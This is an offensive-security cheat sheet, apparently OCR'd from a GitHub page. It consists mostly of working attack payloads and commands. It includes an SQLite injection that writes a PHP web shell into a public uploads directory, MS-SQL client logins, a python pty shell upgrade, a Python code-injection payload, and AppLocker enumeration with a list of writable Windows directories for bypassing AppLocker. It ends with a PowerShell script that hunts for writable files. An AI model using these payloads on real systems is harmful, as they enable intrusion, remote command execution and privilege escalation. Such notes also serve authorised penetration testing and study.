 SQLite Injection to Shell or Backdoor

ATTACH DATABASE '/home/www/public_html/uploads/phpinfo.php' as pwn; 
CREATE TABLE pwn.shell (code TEXT); 
INSERT INTO pwn.shell (code) VALUES ('<?php system($_REQUEST['cmd']);?>');

MS-SQL Console

mssqlclient.py -port 27900 user:password@10.1.1.1
sqsh -S 10.1.1.1 -U user -P password

Upgradig Non-Interactive Shell

python -c 'import pty; pty.spawn("/bin/sh")'
/bin/busybox sh

Python Input Code Injection

__import__('os').system('id')

Local Enumeration & Privilege Escalation
https://github.com/sagishahar/lpeworkshop
Check AppLocker Policies

Get-AppLockerPolicy -Local).RuleCollections
Get-ChildItem -Path HKLM:Software\Policies\Microsoft\Windows\SrpV2 -Recurse
reg query HKEY_LOCAL_MACHINE\Software\Policies\Microsoft\Windows\SrpV2\Exe\

Applocker: Writable Windows Directories

# list from https://github.com/api0cradle/UltimateAppLockerByPassList/blob/master/Generic-AppLockerbypasses.md
C:\Windows\Tasks
C:\Windows\Temp
C:\windows\tracing
C:\Windows\Registration\CRMLog
C:\Windows\System32\FxsTmp
C:\Windows\System32\com\dmp
C:\Windows\System32\Microsoft\Crypto\RSA\MachineKeys
C:\Windows\System32\spool\PRINTERS
C:\Windows\System32\spool\SERVERS
C:\Windows\System32\spool\drivers\color
C:\Windows\System32\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\System32\Tasks_Migrated (after peforming a version upgrade of Windows 10)
C:\Windows\SysWOW64\FxsTmp
C:\Windows\SysWOW64\com\dmp
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\SyncCenter
C:\Windows\SysWOW64\Tasks\Microsoft\Windows\PLA\System

Find Writable Files/Folders in Windows

$a = Get-ChildItem "c:\windows\" -recurse -ErrorAction SilentlyContinue
$a | % {
    $fileName = $_.fullname
    $acls = get-acl $fileName  -ErrorAction SilentlyContinue | select -exp access | ? {$_.filesystemrights -match "full|modify|write" -and $_.identityreference -match "authenticated users|everyone|$env:username"}
    if($acls -ne $null)
    {
        [pscustomobject]@{
            filename = $fileName
            user = $acls | select -exp identityreference
        }
    }
}
